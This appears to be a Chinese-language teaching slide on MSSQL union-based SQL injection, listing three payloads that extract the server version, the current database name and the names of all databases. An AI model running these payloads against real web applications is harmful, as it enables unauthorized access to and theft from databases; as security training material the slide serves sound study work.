

MSSql联合注入
MSSql联合注入的过程
1、获取当前数据库版本
id=-1' union select top 1 1,2,@@version

2、获取当前数据库名
id=-1' union select top 1 1,2,db_name()

3、获取所有数据库名
id=-1' union select top 1 1,2,name from master.sys.databases where name not in(select top 1 name from master.sys.databases)